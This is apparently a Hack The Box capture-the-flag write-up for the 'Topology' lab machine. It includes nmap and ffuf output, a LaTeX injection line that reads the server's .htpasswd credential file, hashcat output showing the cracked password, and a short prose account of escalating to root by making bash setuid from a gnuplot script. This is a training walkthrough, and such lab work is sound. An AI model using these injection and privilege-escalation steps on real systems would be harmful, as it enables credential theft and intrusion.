







# Topology

### 16/09/2023

Default nmap Scan open ports:

```python
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 00:44 EDT
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/17%OT=22%CT=1%CU=41008%PV=Y%DS=2%DC=I%G=Y%TM=6506845
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.79 seconds
```
From the NMAP scan, ports 80 and 22 were discoverable. So I proceeded to go to the website.


#ENUMERATION

```python
ffuf -H "Host: FUZZ.topology.htb" -u "http://topology.htb/" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 6767


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 122ms]
    * FUZZ: stats
    * FUZZ: dev

```




I roamed the website to find the link LaTex Equation Generator helpful.

Following this, I search an exploit to work on this function. However, it did not give me any credentials so I had to use the subdomain dev.topology.htb. There is a htpasswd which would give the password of the user. To exploit this the command is shown below.

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```



The username is vdaisley. The password when passed to hash-identifier the encryption is given as md5.

To decrypt it, I used the hashcat tool.

```python
hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 5 5600G with Radeon Graphics, 1432/2929 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
Time.Started.....: Sun Sep 17 01:36:11 2023 (45 secs)
Time.Estimated...: Sun Sep 17 01:36:56 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22193 H/s (11.21ms) @ Accel:128 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 997376/14344385 (6.95%)
Rejected.........: 0/997376 (0.00%)
Restore.Point....: 996864/14344385 (6.95%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: cam1023 -> cajun3
Hardware.Mon.#1..: Util: 89%

Started: Sun Sep 17 01:35:36 2023
Stopped: Sun Sep 17 01:36:57 2023
```
When decrypted, the password is calculus20


To get the user flag just navigate directories and cat out the user.txt

To obtain root status we must find exploit pspy86. Gnuplot uses plt files.

From uploading the file using wget, I managed to make it executable and so I was able to run it.

The following command made a plt file inside a directory and with the statement system chmod u+s. Bash -p ran the command and made me root. From there I was able to switch directories and was able to cat out the root.txt


